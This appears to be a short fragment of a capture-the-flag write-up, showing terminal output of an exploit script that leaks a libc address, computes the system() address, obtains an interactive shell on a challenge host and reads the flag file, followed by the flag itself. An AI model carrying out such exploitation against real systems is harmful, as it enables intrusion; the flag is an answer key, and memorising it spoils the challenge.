 ```bash
$ python exp.py
[+] Opening connection to 10.113.184.121 on port 10059: Done
[+] Leak libc address = 0x7f890a134b61
[+] Libc base address = 0x7f8909f48000
[+] System address = 0x7f8909f9a290
[b'', b'EVENT: get event named "Default Event"!', b'Invalid command']
[*] Switching to interactive mode
Name: (null)
$ cat /home/chal/flag.txt
flag{Y0u_Kn0w_H0w_T0_0veR1aP_N4me_aNd_EnT1Ty!!!}
```

Flag: `flag{Y0u_Kn0w_H0w_T0_0veR1aP_N4me_aNd_EnT1Ty!!!}`